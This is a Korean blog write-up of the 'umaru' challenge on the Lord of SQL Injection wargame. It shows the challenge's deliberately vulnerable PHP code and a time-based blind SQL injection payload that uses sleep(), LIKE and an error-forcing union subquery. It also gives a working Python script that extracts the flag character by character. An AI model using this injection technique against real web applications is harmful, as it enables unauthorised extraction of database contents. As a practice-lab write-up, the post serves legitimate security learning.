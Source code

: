 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection : eagle-jump] LoS - umaru 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내가 지금 문제를 풀고 있는 서버는 `los.rubiya.kr`인데, `los.eagle-jump.ord`에도 같은 문제가 있다.  

그런데 `eagle-jump` 서버의 마지막 문제는 `rubiya`의 서버에 없는 것 같아 따로 풀어보게 되었다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```

뭔가 엄청 복잡 해 보인다.  

자세히 살펴보면, `reset_flag()` 라는 함수에서 `$new_flag`라는 변수를 생성한다.  

이 변수는 `랜덤숫자+qwer+랜덤숫자+asdf`를 `md5`로 해싱한 후 16글자만을 자른 값이다.  

그 후, 나의 `los_id`와 함께 테이블에 값을 저장한다.  

내가 넘길 수 있는 쿼리스트링은 `flag` 뿐이다.  

그런데 `$_GET['flag']`가 여러 곳에서 사용되는데, 내가 `flag`의 값을 넘겨주면, 몇 가지 필터링을 검사한 후 데이터베이스에 저장 된 나의 `flag`를 찾아 `prob_umaru_temp` 테이블에 저장한다.  

이 후, 이 테이블에 내가 입력 한 `flag`의 값을 임시로 새로 생성 한 테이블에 저장한다.  

그리고 원래 테이블에 저장되어 있던 `flag`의 값과, 임시 테이블에 저장되어 있는 `flag`의 값을 비교하는데, 만약 값이 다르거나 원래 테이블에 `flag`가 없다면 `reset_flag()` 함수를 실행시킨다.  

즉, `flag`를 맞추지 못하면 계속 랜덤 값으로 `flag`가 바뀐다. ㅠㅠ  

따라서 문제를 풀기 위해서는 다음과 같은 조건이 필요하다.  

> 1. flag의 값은 100글자를 넘기지 말 것  
> 2. flag가 갱신되지 않도록 update 쿼리문에서 에러를 발생시킬 것  
> 3. ,를 사용할 수 없기 때문에 sleep 함수를 사용해 값을 찾을 것  

일단 문제에서 해쉬값 중 16글자를 잘라 테이블에 저장하므로, `flag`의 길이는 16글자임을 알 수 있다.  

때문에 값만 찾아내면 된다.  

일단 위의 조건을 만족하는 쿼리를 찾기 위해 서버에서 이것저것 테스트 해 보았다.  

제일 먼저 찾은 쿼리는 다음과 같다.  

```
update prob_umaru_temp set flag=sleep(3 * (flag like 'a%')) + (select 1 union select 2)
```

이러면 먼저 `sleep()` 함수 내에서 `flag`의 값이 `a%`와 같은지를 비교하고, 같다면 `1`이 되기 때문에 `sleep(3*1)`이 만들어 진다.  

즉, 3초 동안 `sleep()` 함수를 실행하게 된다.  

반면 다를 경우에는 `flag like 'a%'`가 0이 되어 `sleep(3*0)`이 만들어 지기 때문에 `sleep()` 함수를 실행하지 않는다.  

`sleep()` 함수를 실행한 후에는 `+`연산으로 연결 된 `select 1 union select 2`를 실행하는데, 이 전 문제들에서도 사용했다시피 해당 쿼리는 에러를 유발한다.  

때문에 결과적으로 완성되는 쿼리는 에러가 발생하기 때문에 `update` 문을 실행하지 않게 되고, `prob_umaru_temp` 테이블과 `prob_umaru` 테이블에 저장된 `flag`의 값은 일치하기 때문에 `reset_flag()` 함수를 실행하지 않는다.  

그래서 이를 바탕으로 코드를 구현해서 테스트 해 보았는데, 아무리 해도 결과가 나오지 않았다.  

내 서버에서는 잘 되는데, 문제 서버에서는 안되길래 뭔가 설정이 다르게 되어있나 싶어서 연산자를 이것저것으로 바꿔 보았다.  

그 결과 `|`를 쓰니 값을 추출할 수 있었다.  

구현한 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 16

url = "https://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "sleep(3 * (flag like '" + str(flag) + str(chr(i)) +"%')) | (select 1 union select 2)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

이 코드를 돌리면 아래와 같은 결과를 얻을 수 있다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 8
[+] Found 2 : 89
[+] Found 3 : 892
[+] Found 4 : 8925
[+] Found 5 : 89253
[+] Found 6 : 892531
[+] Found 7 : 8925316
[+] Found 8 : 89253169
[+] Found 9 : 89253169C
[+] Found 10 : 89253169CE
[+] Found 11 : 89253169CE9
[+] Found 12 : 89253169CE98
[+] Found 13 : 89253169CE987
[+] Found 14 : 89253169CE987D
[+] Found 15 : 89253169CE987D1
[+] Found 16 : 89253169CE987D15
[+] Found password :  89253169CE987D15
[+] End
```

`php`에서 `md5` 함수를 사용하면 알파벳 소문자로 값이 출력되므로, 데이터베이스에 저장된 값도 소문자로 이루어져 있을 것이다.  

따라서 알파벳 대문자를 소문자로 바꾸어 아래와 같이 입력했다.  

```
?flag=89253169ce987d15
```

`eagle-jump` 서버를 `All Clear` 했다!!!  

이제 `rubiya` 서버에도 몇 문제 안남았으니 빨리 다 풀어야지 ㅎㅎㅎ  

```php
UMARU Clear!
```

![](images/los/umaru/umaru_01.png)